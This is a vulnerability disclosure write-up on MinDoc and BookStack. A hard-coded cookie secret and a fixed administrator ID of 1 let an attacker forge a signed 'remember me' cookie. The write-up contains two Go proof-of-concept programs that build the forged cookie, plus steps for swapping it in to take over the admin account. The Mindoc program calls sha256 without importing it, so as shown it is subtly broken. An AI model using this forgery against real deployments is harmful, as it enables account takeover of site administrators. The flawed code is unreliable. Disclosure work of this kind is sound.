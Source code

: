 ## Vulnerable Detail

MinDoc and BookStack are document management system. They both develop their web services based on Beego. Besides, BookStack is based on MinDoc. They have same IDOR vulnerables.

### Execution track

All function are implemented by different **Controller**. **BaseController** (like Parent class) run the **Prepare()** at every beginning.

![](http://www.cinderxxx.live/mindoc-BookStack-IDOR-Vulnerable/1.png)

In **Prepare()**, if applications do not get session information, they try to use cookie to access account.

![](http://www.cinderxxx.live/mindoc-BookStack-IDOR-Vulnerable/22.png)

**GetSecureCookie()** is implemented by beego. In this function, it check if cookie has ***key*** field firstly. Then, it split this field to ***vs***, ***timestamp*** and ***sig***. It use sha256/sha1 algorithm and secret key ***Secret*** to encrypt the combination of ***vs*** and ***timestamp***. In the end, if ciphertext == ***sig***, it return the ***vs*** after decode by base64.

![](http://www.cinderxxx.live/mindoc-BookStack-IDOR-Vulnerable/3.png)

In the next step, function **Decode(value,r)** deserialize the value into r. In this scene, ***value*** is the output of **GetSecureCookie()** and ***r*** is the object of the struct ***CookieRemember***.

![](http://www.cinderxxx.live/mindoc-BookStack-IDOR-Vulnerable/5.png)

![](http://www.cinderxxx.live/mindoc-BookStack-IDOR-Vulnerable/6.png)

After deserialization, appications use ***remember.MemberId*** find the account information and access the account.

### Unsafe logic

In summary, the first problem is in the parameter ***Secret*** of **GetSecureCookie()**. ***Secret*** is come from **conf.GetAppKey()**. This is a static value ("mindoc"/"godoc") and do not ask for changing the value in the setup stage. The second problem is that the default member Id of the administrator is 1. Based on these problems, we can forge the cookie to access the account of the administrator.

![](http://www.cinderxxx.live/mindoc-BookStack-IDOR-Vulnerable/4.png)

### PoC

***PoC for Bookstack***

```golang
package main

import (
	"bytes"
	"crypto/hmac"
	"crypto/sha1"
	"encoding/base64"
	"encoding/gob"
	"fmt"
	"time"
)

type CookieRemember struct {
	MemberId int
	Account  string
	Time     time.Time
}

func main() {
	m := CookieRemember{MemberId: 1, Account: "2"}
	var network bytes.Buffer
	enc := gob.NewEncoder(&network)
	enc.Encode(m)
	encoded := base64.URLEncoding.EncodeToString([]byte(network.String()))
	fmt.Println("base64，vs:", encoded)
	s := "godoc"
	h := hmac.New(sha1.New, []byte(s))
	fmt.Fprintf(h, "%s%s", encoded, "123")
	a := fmt.Sprintf("%02x", h.Sum(nil))
	fmt.Println("sha1，sig:", a)
}
```

***PoC for Mindoc***

```golang
package main

import (
	"bytes"
	"crypto/hmac"
	"crypto/sha1"
	"encoding/base64"
	"encoding/gob"
	"fmt"
	"time"
)

type CookieRemember struct {
	MemberId int
	Account  string
	Time     time.Time
}

func main() {
	m := CookieRemember{MemberId: 1, Account: "2"}
	var network bytes.Buffer
	enc := gob.NewEncoder(&network)
	enc.Encode(m)
	encoded := base64.URLEncoding.EncodeToString([]byte(network.String()))
	fmt.Println("base64，vs:", encoded)
	s := "mindoc"
	h := hmac.New(sha256.New, []byte(s))
	fmt.Fprintf(h, "%s%s", encoded, "123")
	a := fmt.Sprintf("%02x", h.Sum(nil))
	fmt.Println("sha256，sig:", a)
 }
```
After get the fake ***sig*** and ***vs***, we can connect them by '\|' (need not to condsider *timestamp*). We replace the original cookie and access the account of the administrator.

![](http://www.cinderxxx.live/mindoc-BookStack-IDOR-Vulnerable/8.png)

![](http://www.cinderxxx.live/mindoc-BookStack-IDOR-Vulnerable/9.png)

